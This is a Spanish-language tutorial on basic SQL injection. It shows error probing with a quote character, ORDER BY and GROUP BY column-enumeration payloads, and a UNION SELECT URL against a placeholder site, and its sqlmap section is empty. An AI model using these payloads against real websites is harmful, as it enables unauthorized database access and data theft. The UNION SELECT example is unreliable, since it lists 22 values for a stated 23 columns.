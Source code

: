 # INYECCIÓN SQLi - Básico 

## TEMAS

* [¿Qué es una inyección sql?](#¿Qué-es-una-inyección-sql?)
* [¿Porqué ocurre un error sql?](#¿Porqué-ocurre-un-error-sql?)
* [Tipos de inyección sql](#Tipos-de-inyección-sql)
    * [Inyección sql manual](#Inyección-sql-manual)
      * [Detectar una página vulnerable](#Detectar-una-página-vulnerable)
      * [Detectar el número de columnas](#Detectar-el-número-de-columnas)
      * [Usando union select](#Usando-union-select)
    * [Inyección sql automatizada con sqlmap](#Inyección-sql-automatizada-con-sqlmap)


## ¿Qué es una inyección sql?

Sql Injection ó Inyección SQL es una vulnerabilidad que permite al atacante enviar o “inyectar” instrucciones SQL de forma maliciosa y malintencionada.

## ¿Porqué ocurre un error sql?

Un error SQL ocurre normalmente con la mala filtración de las variables en un programa que tiene o crea SQL, generalmente cuando solicitas a un usuario entradas de cualquier tipo y no se encuentran validadas, como por ejemplo su nombre y contraseña, pero a cambio de esta información el atacante envía una sentencia SQL invasora que se ejecutará en la base de datos.

## Tipos de inyección sql

Una inyección sql puede ser explotada de 2 maneras diferentes, manualmente, es decir, el atacante inyectara a mano la secuencia de comandos para así generar la acción dentro de la base de datos.

Por otra parte tenemos la inyección automatizada con sqlmap, sqlmap es una herramienta diseñada especialmente para este tipo de ataques, se encarga de analizar la página, ver si es vulnerable y atacar, se dice que es automatizada ya que la herramienta hace todo por si sola, el usuario solo necesita ingresar las opciones que quiera usar para hacer más efectivo el escaneo.

## Inyección sql manual 

### Detectar una página vulnerable

Una de las principales cosas en donde nos tenemos que fijar para detectar si una página es vulnerable a inyección sql es en sus parametros, imaginemos lo siguiente:

Encontramos una página común y corriente la cual utiliza muchos parametros por el metodo GET (recordemos que el metodo GET es cuando la página envia los datos usando la URL), entonces tenemos algo como esto:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1`

En este ejemplo tenemos 3 parametros, los cuales son:

```
id=1
id2=1
id3=1
```

Ahora, para detectar si la página es vulnerable, una de las cosas más sencillas es usar un simple ' al final de cada para metro para ver si nos genera un error en la base de datos. 

Entontes tenemos lo siguiente:

Agregamos un `'` al final del primer paramero, pero no nos genera ningun error:

`http://www.paginaparaejemplo.com/algo.php?id=1'&id2=1&id3=1`

Agregamos un `'` al final del segundo paramero, pero no nos genera ningun error:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1'&id3=1`

Agregamos un `'` al final del ultimo paramero, pero aquí si nos devuelve un error:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1'`

La página nos muestra una leyenda como esta:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax`

Ahora que tenemos el parámetro vulnerable, nos pasamos a lo siguiente.

### Detectar el número de columnas

Ya tenemos el parámetro vulnerable, ahora tenemos que identificar el número de columnas usadas por la página, para esto tenemos los siguientes comandos:

`ordey by` y `group by`

Aquí tenemos que ir testeando el numero de columnas, aquí un ejemplo de como usar el order by y el group by:

```
1' ORDER BY 1 --+	
1' ORDER BY 2 --+	
1' ORDER BY 3 --+	
1' ORDER BY 4 --+	
etc...
```
```
1' GROUP BY 1--+	
1' GROUP BY 2--+	
1' GROUP BY 3--+	
1' GROUP BY 4--+	
etc...
```

Aquí lo que estamos buscando es que la pagina nos genere un error al inyectar un numero que supera las columnas usadas por la página, para que sea un poco mas entendible vamos a verlo de esta manera:

Imaginamos que la pagina tiene `23` columnas, volviendo al ejemplo anterior en donde ya descubrimos el parámetro vulnerable nos quedaria algo como esto:


```

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 1 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 2 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 3 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 10 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 20 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 23 --+ #sin error

-http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' order by 24 --+ #tenemos un error

```

Al nosotros sobrepasar el número de columnas usadas por la página, esta nos mostrará un error como el siguiente: 

`La consulta no se realizo: Unknown column '24' in 'order clause'`

Gracias a esto, descubrimos que la página usa 23 columnas.

### Usando union select

Ahora llega el turno de `union select`, lo que hacen estos comandos es "darnos paso" por así decirlo a ejecutar sentencias directamente en la base de datos y que esto se vea reflejado en la página.

Para usar `union select`, tenos que poner el total de columnas que descubrimos anteriormente. Volviendo a el ejemplo que tenemos planteado, nos quedaría de la siguiente manera:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+'







## Inyección sql automatizada con sqlmap



